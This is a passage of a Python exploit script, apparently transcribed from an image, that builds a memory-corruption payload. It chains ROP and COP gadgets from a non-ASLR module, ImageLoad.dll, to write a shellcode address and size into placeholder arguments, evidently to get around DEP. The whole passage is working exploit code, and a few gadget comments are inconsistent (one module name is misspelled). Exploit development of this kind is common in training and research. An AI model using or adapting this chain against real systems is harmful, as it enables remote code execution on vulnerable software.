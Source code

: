 ```python
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
crash += struct.pack('<L', 0x10022f45)    # sub eax, esi ; pop edi ; pop esi ; ret
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget
crash += struct.pack('<L', 0x90909090)    # Compensate for above ROP gadget

# Changing lpBuffer placeholder to actual address of shellcode
crash += struct.pack('<L', 0x10021bfb)    # mov dword [ecx+0x8], eax ; ret: ImageLoad.dll (non-ASLR enabled module)

# nSize parameter (0x180 = 384 bytes)
crash += struct.pack('<L', 0x100103ff)    # pop edi ; ret: ImageLoad.dll (non-ASLR enabled module) (Compensation for COP gadget add edx, 0x20)
crash += struct.pack('<L', 0x1001c31e)    # add esp, 0x8 ; ret: ImageLoadl.dll (non-ASLR enabled module) (Returns to stack after COP gadget)
crash += struct.pack('<L', 0x10022c4c)    # xor edx, edx ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)
crash += struct.pack('<L', 0x1001b884)    # add edx, 0x20 ; push edx ; call edi: ImageLoad.dll (non-ASLR enabled module) (COP gadget)

# Incrementing ECX to place the nSize parameter placeholder into ECX
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
crash += struct.pack('<L', 0x61c68081)    # inc ecx ; add al, 0x39 ; ret: ImageLoad.dll (non-ASLR enabled module)
```